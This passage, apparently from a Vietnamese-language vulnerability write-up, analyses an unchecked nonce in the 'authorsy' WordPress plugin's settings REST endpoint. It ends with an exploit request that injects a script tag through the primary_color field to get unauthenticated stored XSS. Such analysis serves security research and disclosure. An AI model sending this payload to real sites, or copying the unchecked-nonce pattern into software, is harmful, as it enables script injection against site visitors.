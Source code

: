 ```php
        }
    }

    $data['data'] = authorsy_get_settings();

    return rest_ensure_response( $data );
}
```

Hàm `update_settings` nhận dữ liệu **JSON** từ request, decode thành các cặp **key-value** và cập nhật chúng vào cơ sở dữ liệu. Trước khi thực hiện update, ứng dụng gọi `$this->verify_nonce( $request );` để kiểm tra **nonce**.

```php
public static function verify_nonce($request) {
    $nonce = $request->get_header('X-WP-Nonce');

    if (!wp_verify_nonce($nonce, 'wp_rest')) {
        return new \WP_Error('invalid_nonce', __('Invalid nonce.', 'authorsy'), ['status' => 403]);
    }

    return true;
}
```

Điểm quan trọng:

* Khi **nonce** không hợp lệ, hàm chỉ trả về một đối tượng `WP_Error`, nhưng không dừng chương trình.
* Trong `update_settings`, giá trị trả về của **verify_nonce** không được kiểm tra => code vẫn tiếp tục thực hiện cập nhật.

👉 Như vậy, ta có thể thay đổi giá trị của CSS chứa XSS payload trong database mà không cần đặc quyền gì cả => CSS được thêm vào `<head>` chứa mã độc

---

## Exploit

### Detect XSS

Gửi **POST** request đến `/wp-json/authorsy/v1/settings` với XSS payload

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost

Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```
